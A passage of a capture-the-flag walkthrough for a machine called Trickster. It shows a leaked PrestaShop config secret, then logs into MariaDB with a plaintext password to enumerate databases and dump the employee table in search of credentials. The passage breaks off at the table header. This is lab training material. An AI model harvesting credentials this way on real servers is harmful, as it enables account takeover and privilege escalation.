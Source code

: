 ````bash
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'eHPDO7bBZPjXWbv3oSLIpkn5XxPvcvzt7ibaHTgWhTBM3e7S9kbeB1TPemtIgzog',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2024-05-25',
````

In this case, we found the database credentials, but unfortunately, they have not been reused for other users. Therefore, we will need to access the database and see if we can find any other credentials.
## PRIVILEGE ESCALATION
---
````bash
www-data@trickster:~/prestashop/app/config$ mysql -u ps_user -p'prest@shop_o' 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 16635
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> USE prestashop;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [prestashop]> show tables;
+-------------------------------------------------+
| Tables_in_prestashop                            |
+-------------------------------------------------+

MariaDB [prestashop]> SELECT * FROM ps_employee;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email               | passwd                                                       | last_passwd_gen     | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css    | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
````